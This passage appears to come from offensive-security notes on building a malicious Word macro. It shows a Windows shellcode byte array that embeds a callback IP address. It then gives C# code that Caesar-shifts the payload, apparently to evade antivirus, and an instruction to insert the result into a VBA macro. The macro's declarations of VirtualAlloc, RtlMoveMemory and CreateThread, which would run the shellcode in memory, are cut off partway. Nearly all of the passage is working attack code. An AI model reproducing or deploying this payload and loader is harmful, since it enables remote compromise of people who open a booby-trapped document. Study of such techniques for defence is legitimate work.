 ```bash
                0x47,0x4b,0x46,0x76,0x00,0x50,0x68,0x57,0x89,0x9f,0xc6,0xff,
                0xd5,0x89,0xc6,0x53,0x68,0x00,0x32,0xe8,0x84,0x53,0x53,0x53,
                0x57,0x53,0x56,0x68,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x96,0x6a,
                0x0a,0x5f,0x68,0x80,0x33,0x00,0x00,0x89,0xe0,0x6a,0x04,0x50,
                0x6a,0x1f,0x56,0x68,0x75,0x46,0x9e,0x86,0xff,0xd5,0x53,0x53,
                0x53,0x53,0x56,0x68,0x2d,0x06,0x18,0x7b,0xff,0xd5,0x85,0xc0,
                0x75,0x14,0x68,0x88,0x13,0x00,0x00,0x68,0x44,0xf0,0x35,0xe0,
                0xff,0xd5,0x4f,0x75,0xcd,0xe8,0x4b,0x00,0x00,0x00,0x6a,0x40,
                0x68,0x00,0x10,0x00,0x00,0x68,0x00,0x00,0x40,0x00,0x53,0x68,
                0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x53,0x89,0xe7,0x57,
                0x68,0x00,0x20,0x00,0x00,0x53,0x56,0x68,0x12,0x96,0x89,0xe2,
                0xff,0xd5,0x85,0xc0,0x74,0xcf,0x8b,0x07,0x01,0xc3,0x85,0xc0,
                0x75,0xe5,0x58,0xc3,0x5f,0xe8,0x6b,0xff,0xff,0xff,0x31,0x39,
                0x32,0x2e,0x31,0x36,0x38,0x2e,0x34,0x35,0x2e,0x31,0x37,0x34,
                0x00,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5};

            byte[] encoded = new byte[buf.Length];

            for (int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
            }

            uint counter = 0;

            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            foreach (byte b in encoded)
            {
                hex.AppendFormat("{0:D}, ", b);
                counter++;
                if (counter % 50 == 0)
                {
                    hex.AppendFormat("_{0}", Environment.NewLine);
                }
            }
            Console.WriteLine("The payload is: " + hex.ToString());
            File.AppendAllText("test.txt", hex.ToString());
        }
    }
}

```

Run the file to obtain encrypted payload, and insert it to VBA. Remember that the Macro must be attached to the current document and not anything else.
![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/aee2ede3-7599-43e4-8325-33d06e1d219a/95983bb5-30a9-428b-9e62-5423fc5925ce/Untitled.png)

```bash
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
Sub MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
```